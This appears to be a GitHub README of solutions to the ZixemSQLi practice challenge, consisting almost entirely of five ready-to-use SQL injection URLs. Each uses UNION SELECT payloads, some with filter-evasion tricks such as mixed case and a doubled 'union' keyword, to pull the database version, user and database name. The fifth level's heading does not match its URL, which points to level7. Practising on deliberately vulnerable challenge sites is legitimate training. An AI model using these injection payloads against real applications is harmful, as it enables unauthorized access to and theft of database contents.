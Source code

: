 # ZixemSQLi Challange

[READ RULES](http://www.zixem.altervista.org/SQLi/index.php)

## LEVEL 1

```
http://www.zixem.altervista.org/SQLi/level1.php?id=1111%20union%20select%20concat_ws(0x3a,%20version(),%20user()),%2022,%203
```

## LEVEL 2

```
http://www.zixem.altervista.org/SQLi/level2.php?showprofile=-1' union select database(),version(),user(),4--+
```

## LEVEL 3

```
http://www.zixem.altervista.org/SQLi/level3.php?item=-4%27%20unionon%20SeLect%20database(),User(),version(),4--+
```

## LEVEL 4

```
http://www.zixem.altervista.org/SQLi/level4.php?ebookid=999%27%20union%20select%20version(),2,user(),4,5--+
```

## LEVEL 5

```
view-source:http://www.zixem.altervista.org/SQLi/level7.php?id=1111111%20union%20select%201,concat_ws(0x3a,%20version(),user()),2--+
```



